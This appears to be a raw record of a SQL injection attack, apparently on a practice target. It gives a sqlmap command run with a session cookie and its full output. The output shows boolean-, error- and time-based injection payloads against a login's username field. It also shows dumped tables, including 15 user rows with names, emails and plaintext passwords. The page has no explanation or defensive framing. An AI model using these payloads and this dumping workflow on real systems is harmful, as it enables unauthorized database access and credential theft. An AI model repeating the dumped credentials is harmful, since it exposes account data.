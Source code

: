 
# Command
___
```shell
sqlmap -r burp --cookie="PHPSESSID=2v1mpaceu5oh3smbn23e4l2r1j" --batch --dbs --dump | tee output-sqlmap.txt
```


# Output
---
```
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

```

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:33:02 /2025-07-04/

[17:33:02] [INFO] parsing HTTP request from 'burp'
[17:33:02] [INFO] resuming back-end DBMS 'mysql' 
[17:33:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-3456' OR 6429=6429#&password=1

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=1' AND (SELECT 5745 FROM(SELECT COUNT(*),CONCAT(0x71787a7671,(SELECT (ELT(5745=5745,1))),0x7170766b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nnKo&password=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=1' AND (SELECT 1547 FROM (SELECT(SLEEP(5)))Dzip)-- HCce&password=1
---
[17:33:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:33:02] [INFO] fetching database names
[17:33:02] [INFO] resumed: 'information_schema'
[17:33:02] [INFO] resumed: 'mysql'
[17:33:02] [INFO] resumed: 'performance_schema'
[17:33:02] [INFO] resumed: 'sql_injection'
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sql_injection

[17:33:02] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[17:33:02] [INFO] fetching current database
[17:33:02] [INFO] resumed: 'sql_injection'
[17:33:02] [INFO] fetching tables for database: 'sql_injection'
[17:33:02] [INFO] resumed: 'images'
[17:33:02] [INFO] resumed: 'users'
[17:33:02] [INFO] resumed: 'stocks'
[17:33:02] [INFO] fetching columns for table 'users' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'id'
[17:33:02] [INFO] resumed: 'int(6)'
[17:33:02] [INFO] resumed: 'username'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'email'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'password'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'name'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'surname'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] fetching entries for table 'users' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'Angelo'
[17:33:02] [INFO] resumed: 'ephraim_frits@supermail.com'
[17:33:02] [INFO] resumed: '1'
[17:33:02] [INFO] resumed: 'ii7phaufuGah'
[17:33:02] [INFO] resumed: 'Williams'
[17:33:02] [INFO] resumed: 'angelo12'
[17:33:02] [INFO] resumed: 'John'
[17:33:02] [INFO] resumed: 'JohnDMoore@dayrep.com'
[17:33:02] [INFO] resumed: '2'
[17:33:02] [INFO] resumed: 'Oir6ot6Aet4'
[17:33:02] [INFO] resumed: 'Moore'
[17:33:02] [INFO] resumed: 'moore'
[17:33:02] [INFO] resumed: 'Nichole'
[17:33:02] [INFO] resumed: 'NicholeWWannamaker@teleworm.us'
[17:33:02] [INFO] resumed: '3'
[17:33:02] [INFO] resumed: 'Baevaed0jah'
[17:33:02] [INFO] resumed: 'Wannamaker'
[17:33:02] [INFO] resumed: 'nicool'
[17:33:02] [INFO] resumed: 'Lewis'
[17:33:02] [INFO] resumed: 'LewisLSing@teleworm.us'
[17:33:02] [INFO] resumed: '4'
[17:33:02] [INFO] resumed: 'aeShek9d'
[17:33:02] [INFO] resumed: 'Sing'
[17:33:02] [INFO] resumed: 'singlewis'
[17:33:02] [INFO] resumed: 'Rebecca'
[17:33:02] [INFO] resumed: 'RebeccaJRussell@rhyta.com'
[17:33:02] [INFO] resumed: '5'
[17:33:02] [INFO] resumed: 'uQuah5athah'
[17:33:02] [INFO] resumed: 'Russell'
[17:33:02] [INFO] resumed: 'russrebecca'
[17:33:02] [INFO] resumed: 'Arthur'
[17:33:02] [INFO] resumed: 'ArthurHNadeau@dayrep.com'
[17:33:02] [INFO] resumed: '6'
[17:33:02] [INFO] resumed: 'to4ixia7C'
[17:33:02] [INFO] resumed: 'Nadeau'
[17:33:02] [INFO] resumed: 'arthurnad'
[17:33:02] [INFO] resumed: 'teadorate'
[17:33:02] [INFO] resumed: 'temojev119@drlatvia.com'
[17:33:02] [INFO] resumed: '7'
[17:33:02] [INFO] resumed: 'temojev119'
[17:33:02] [INFO] resumed: 'macheal'
[17:33:02] [INFO] resumed: 'teador'
[17:33:02] [INFO] resumed: 'Mary'
[17:33:02] [INFO] resumed: 'MaryGChatterton@rhyta.com'
[17:33:02] [INFO] resumed: '8'
[17:33:02] [INFO] resumed: 'Iequahx4'
[17:33:02] [INFO] resumed: 'G.Chatterton'
[17:33:02] [INFO] resumed: 'Thiped'
[17:33:02] [INFO] resumed: 'Carrie'
[17:33:02] [INFO] resumed: 'CarrieDYoung@rhyta.com'
[17:33:02] [INFO] resumed: '9'
[17:33:02] [INFO] resumed: 'kei7Ru4aay'
[17:33:02] [INFO] resumed: 'Young'
[17:33:02] [INFO] resumed: 'Duccoldany'
[17:33:02] [INFO] resumed: 'Karen'
[17:33:02] [INFO] resumed: 'KarenRVelez@rhyta.com'
[17:33:02] [INFO] resumed: '10'
[17:33:02] [INFO] resumed: 'aiPh1aht'
[17:33:02] [INFO] resumed: 'Velez'
[17:33:02] [INFO] resumed: 'Basure'
[17:33:02] [INFO] resumed: 'Virginia'
[17:33:02] [INFO] resumed: 'VirginiaJBryson@jourrapide.com'
[17:33:02] [INFO] resumed: '11'
[17:33:02] [INFO] resumed: 'Oom1dai2Ae'
[17:33:02] [INFO] resumed: 'Bryson'
[17:33:02] [INFO] resumed: 'Lonce1992'
[17:33:02] [INFO] resumed: 'Tiffany'
[17:33:02] [INFO] resumed: 'TiffanyRGriffith@dayrep.com'
[17:33:02] [INFO] resumed: '12'
[17:33:02] [INFO] resumed: 'ieSh6aim'
[17:33:02] [INFO] resumed: 'Griffith'
[17:33:02] [INFO] resumed: 'Lawas1965'
[17:33:02] [INFO] resumed: 'Heather'
[17:33:02] [INFO] resumed: 'HeatherLJohnson@armyspy.com'
[17:33:02] [INFO] resumed: '13'
[17:33:02] [INFO] resumed: 'Fah6einai7s'
[17:33:02] [INFO] resumed: 'Johnson'
[17:33:02] [INFO] resumed: 'Rompubse'
[17:33:02] [INFO] resumed: 'Ramona'
[17:33:02] [INFO] resumed: 'RamonaKWebster@dayrep.com'
[17:33:02] [INFO] resumed: '14'
[17:33:02] [INFO] resumed: 'aeYahm6zee0'
[17:33:02] [INFO] resumed: 'Webster'
[17:33:02] [INFO] resumed: 'Sequand'
[17:33:02] [INFO] resumed: 'Sandra'
[17:33:02] [INFO] resumed: 'andraJFraser@teleworm.us'
[17:33:02] [INFO] resumed: '15'
[17:33:02] [INFO] resumed: 'Oemeey3uji'
[17:33:02] [INFO] resumed: 'Fraser'
[17:33:02] [INFO] resumed: 'Moret1948'
Database: sql_injection
Table: users
[15 entries]
+----+--------------------------------+-----------+--------------+--------------+-------------+
| id | email                          | name      | surname      | password     | username    |
+----+--------------------------------+-----------+--------------+--------------+-------------+
| 1  | ephraim_frits@supermail.com    | Angelo    | Williams     | ii7phaufuGah | angelo12    |
| 2  | JohnDMoore@dayrep.com          | John      | Moore        | Oir6ot6Aet4  | moore       |
| 3  | NicholeWWannamaker@teleworm.us | Nichole   | Wannamaker   | Baevaed0jah  | nicool      |
| 4  | LewisLSing@teleworm.us         | Lewis     | Sing         | aeShek9d     | singlewis   |
| 5  | RebeccaJRussell@rhyta.com      | Rebecca   | Russell      | uQuah5athah  | russrebecca |
| 6  | ArthurHNadeau@dayrep.com       | Arthur    | Nadeau       | to4ixia7C    | arthurnad   |
| 7  | temojev119@drlatvia.com        | teadorate | macheal      | temojev119   | teador      |
| 8  | MaryGChatterton@rhyta.com      | Mary      | G.Chatterton | Iequahx4     | Thiped      |
| 9  | CarrieDYoung@rhyta.com         | Carrie    | Young        | kei7Ru4aay   | Duccoldany  |
| 10 | KarenRVelez@rhyta.com          | Karen     | Velez        | aiPh1aht     | Basure      |
| 11 | VirginiaJBryson@jourrapide.com | Virginia  | Bryson       | Oom1dai2Ae   | Lonce1992   |
| 12 | TiffanyRGriffith@dayrep.com    | Tiffany   | Griffith     | ieSh6aim     | Lawas1965   |
| 13 | HeatherLJohnson@armyspy.com    | Heather   | Johnson      | Fah6einai7s  | Rompubse    |
| 14 | RamonaKWebster@dayrep.com      | Ramona    | Webster      | aeYahm6zee0  | Sequand     |
| 15 | andraJFraser@teleworm.us       | Sandra    | Fraser       | Oemeey3uji   | Moret1948   |
+----+--------------------------------+-----------+--------------+--------------+-------------+

[17:33:02] [INFO] table 'sql_injection.users' dumped to CSV file '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz/dump/sql_injection/users.csv'
[17:33:02] [INFO] fetching columns for table 'images' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'id'
[17:33:02] [INFO] resumed: 'int(11)'
[17:33:02] [INFO] resumed: 'path'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] fetching entries for table 'images' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'images/1.png'
[17:33:02] [INFO] resumed: '1'
[17:33:02] [INFO] resumed: 'images/2.png'
[17:33:02] [INFO] resumed: '2'
[17:33:02] [INFO] resumed: 'images/3.png'
[17:33:02] [INFO] resumed: '3'
[17:33:02] [INFO] resumed: 'images/4.png'
[17:33:02] [INFO] resumed: '4'
[17:33:02] [INFO] resumed: 'images/5.png'
[17:33:02] [INFO] resumed: '5'
[17:33:02] [INFO] resumed: 'images/6.png'
[17:33:02] [INFO] resumed: '6'
[17:33:02] [INFO] resumed: 'images/7.png'
[17:33:02] [INFO] resumed: '7'
[17:33:02] [INFO] resumed: 'images/8.png'
[17:33:02] [INFO] resumed: '8'
[17:33:02] [INFO] resumed: 'images/9.png'
[17:33:02] [INFO] resumed: '9'
[17:33:02] [INFO] resumed: 'images/10.png'
[17:33:02] [INFO] resumed: '10'
Database: sql_injection
Table: images
[10 entries]
+----+---------------+
| id | path          |
+----+---------------+
| 1  | images/1.png  |
| 2  | images/2.png  |
| 3  | images/3.png  |
| 4  | images/4.png  |
| 5  | images/5.png  |
| 6  | images/6.png  |
| 7  | images/7.png  |
| 8  | images/8.png  |
| 9  | images/9.png  |
| 10 | images/10.png |
+----+---------------+

[17:33:02] [INFO] table 'sql_injection.images' dumped to CSV file '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz/dump/sql_injection/images.csv'
[17:33:02] [INFO] fetching columns for table 'stocks' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'id'
[17:33:02] [INFO] resumed: 'int(11)'
[17:33:02] [INFO] resumed: 'name'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] fetching entries for table 'stocks' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'iphone11'
[17:33:02] [INFO] resumed: '1'
[17:33:02] [INFO] resumed: 'applewatch7'
[17:33:02] [INFO] resumed: '2'
[17:33:02] [INFO] resumed: 'iphone13'
[17:33:02] [INFO] resumed: '3'
[17:33:02] [INFO] resumed: 'iphonese'
[17:33:02] [INFO] resumed: '4'
[17:33:02] [INFO] resumed: 'apple20w'
[17:33:02] [INFO] resumed: '5'
Database: sql_injection
Table: stocks
[5 entries]
+----+-------------+
| id | name        |
+----+-------------+
| 1  | iphone11    |
| 2  | applewatch7 |
| 3  | iphone13    |
| 4  | iphonese    |
| 5  | apple20w    |
+----+-------------+

[17:33:02] [INFO] table 'sql_injection.stocks' dumped to CSV file '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz/dump/sql_injection/stocks.csv'
[17:33:02] [INFO] fetched data logged to text files under '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz'

[*] ending @ 17:33:02 /2025-07-04/


